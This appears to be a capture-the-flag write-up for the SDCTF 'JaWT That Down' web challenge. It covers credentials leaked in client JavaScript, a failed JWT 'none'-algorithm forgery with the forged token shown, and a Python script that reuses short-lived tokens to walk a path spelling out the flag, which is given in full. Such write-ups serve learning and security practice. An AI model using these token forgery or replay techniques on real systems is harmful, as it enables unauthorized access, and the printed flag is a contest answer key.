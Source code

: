# JaWT That Down

**Category**: Web  
**Level**: Easy  
**Points**: 200  
**Description**: The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.
Website
https://jawt.sdc.tf/

### Writeup

The description of this challenge doesn't have much clues but the creator have deliberately captilized the letters 'J', 'W', 'T' in the heading which caught our attention. We immediately got the hint that this challenge will require the knowledge of JWT and its exploitation. We started by glancing through the website's functionality on a very high level and were easily able to figure out that we somehow have to get through the user login. This will provide us the JWT which can be further exploited to get the flag. After this high level run through, I was assigned to pick up this challenge.


##### Step 1 : Finding User Login Credentials

I started by performing SQL injection in the login form with simple payloads from the top of my head but it didn't work. I was tempted to run `sqlmap` behind the scenes but I resisted and looked through the source code using browser's(Chrome in my case) debugger tools. I took this detour because I had also spent time on the challenge 'HuMongous Mistake'(which I wasn't able to solve) and found some useful comments in the JavaScript source code.

So my approach was to look for potentially dangerous JavaScript functions in JS file `login.js` which was loaded on the login form web page. The code was written in reactJS and one such function was `dangerouslySetInnerHTML`. Under one of the occurences of this function was the user credentials using which I was successfully able to log in. This saved me a lot of time. 

![Browser Debugger Tools JS Code](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_debugger_js_user_pass.png)

However, later I realised that I could have right clicked on the username/password field of login form and selected "Inspect". This would also have shown me the user credentials.

![Browser Debugger Tools HTML Code](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_debugger_user_pass.png)

##### Step 2 : Observe After Log In

After login, the first thing that caught my eye was an extra menu item named 'Flag' on the top left. But once I click on it, it showed "Invalid Token: Access Denied". 

![Browser Flag Menu Item](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_flag_menu_item.png)

![Browser Invalid Token](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_invalid_token.png)

I fired up Burp Suite and intercepted the HTTP call which is sent once I click on 'Flag'. Let's call it flag endpoint. The first thing that caught my eye was the JWT which is passed in Cookie request header. So, I replayed the request after removing the Cookie request header which showed me a different error "No Token: Access Denied". I was fully convinced that I am on the right track and I need to pass a valid JWT in order to proceed. 

![Burp Suite No Token](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/burp_suite_no_token.png)

##### Step 3 : Get Valid JWT for Flag Endpoint

My next step was to figure out why my JWT is invalid. I decoded and read the contents of the JWT on https://jwt.io/ and figured out that the issue time(iat) and expiry time(exp) has a gap of mere 2 seconds which explained the error "Invalid Token: Access Denied" because by the time I clicked on 'Flag' the token was already expired. I had two solutions in my mind to overcome this problem:
1. Either, I can verify if JWT signature verfiication can be bypassed which will allow me to increase the expiry time.
2. Or, I make a script to automate this process of logging in and using the JWT in the next flag endpoint.

**First Approach - Signature Verification Bypass**

I went with the first option because writing a script for me would take comparatively more time. Here is a [good read of JWT's 'none' algorithm](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f).
Essentially, I divided the JWT into 3 base64 encoded parts by splitting it using '.'(period). I base64 decoded the first part on https://www.base64decode.org/, changed the value of "alg" to "none", base64 encoded it on https://www.base64encode.org/. This was tampering of first part of JWT(called header). Then I did the same thing with the second part(called payload) except I increased the expiry to a month. I joined both the parts and recreated my final JWT

*Before*: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjUyMTc3MTE0fQ.jmcOs7t4hSFYad3wz2S993jJ7lQOYbG_paBrqSByBBM`

*After*: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjU0ODU3NDI3fQ.`

However, I got the same error "Invalid Token: Access Denied" using my new token. Hence, I scratched out the first approach and went back to the second approach.

**Second Approach - Automate Log In and Flag Endpoint**

I quickly wrote a little python script which looked like this:
```python
import requests
from requests_toolbelt.utils import dump

ch = 's'

loginUrl = "https://jawt.sdc.tf/login"
payload = {'username':'AzureDiamond','password':'hunter2'}

r = requests.post(loginUrl, data=payload, allow_redirects=False)
cookieHeader = r.headers['Set-Cookie']
if not cookieHeader:
	print("cookie header not found")
	exit()

cookieKeyValue = cookieHeader.split(";")[0].split("=")

flagUrl = "https://jawt.sdc.tf/"+ch

cookies = {}
cookies[cookieKeyValue[0]] = cookieKeyValue[1]

re = requests.get(flagUrl, cookies=cookies)
data = dump.dump_all(re)
print(data.decode('utf-8'))
```

The above script hits the `/login` endpoint, reads the JWT from Set-Cookie response header, sets it in the the flag endpoint `/s` and prints the request/response of the flag endpoint. It gave me the following output:

```http
< GET /s HTTP/1.1
< Host: jawt.sdc.tf
< User-Agent: python-requests/2.27.1
< Accept-Encoding: gzip, deflate
< Accept: */*
< Connection: keep-alive
< Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiMzc5Y2EyOWRmNmQ5ZjM1N2U5ZTdjZWEzOTcxNzQ2NiIsImlhdCI6MTY1MjE3OTI4MCwiZXhwIjoxNjUyMTc5MjgyfQ.7lxeRGwHBFhpeChplXje1-LLHbF_mdZx7DzrCpgl32M
<

> HTTP/1.1 200 OK
> Date: Tue, 10 May 2022 10:41:20 GMT
> Content-Length: 1
> Connection: keep-alive
> X-Powered-By: Express
> Via: 1.1 google
> CF-Cache-Status: DYNAMIC
> Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
> Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=aiYf7PWSnmhxBfoNe5a%2BJ8YB3o%2BvUj8O1CK55r300zSWI50ioyAHEvt38IH2N8wAQ2B9uC2tmKKR%2B7CaAzOqcSLY%2FOcBKGoaTu%2BmO8MAyiIyIQB3LQ0VOZckW%2BXQMQ%3D%3D"}],"group":"cf-nel","max_age":604800}
> NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
> Server: cloudflare
> CF-RAY: 70920fd6dab29e47-SIN
> alt-svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400
>
d
```

I wasn't able to understand the response of this for a long time. I tried hitting `/d` endpoint by changing the python script but it gave me 404 not found. Similariy, I tried hitting `/sd` and enumerated from `/a` to `/z` both in small and capital letters but got the same result. At this point, I took a new challenge. I later got an idea to give a try to `/s/d` and it worked. It gave me `/c`. Since all the flag of this challenge started with 'sdctf' therefore I continued this methodology by changing the script, saving and hitting one by one. Eventually I got this endpoint `https://jawt.sdc.tf/s/d/c/t/f/{/T/h/3/_/m/0/r/3/_/t/0/k/3/n/s/_/t/h/e/_/l/e/5/5/_/p/r/0/b/l/3/m/s/_/a/d/f/3/d/}` which has the flag.

**Flag** - `sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}`


### Final Thoughts

In real world applications, short-lived JWTs are very much used. But even if they are short-lived, they can be exploited to retrieve sensitive information. Hence, reducing the expiry time wouldn't necessarily mean that the system is protected.  
Although, being a beginner, I wasn't able to complete this challenge on time because the idea of making the URL the right way came late to me but still at the end of the day I am happy that I was able to solve this challenge on my own.  
During the course of this challenge, I had great fun reading about JWT, JWK and JWS which enhanced my knowledge while at the same time helped me practically understand the exploitation of it.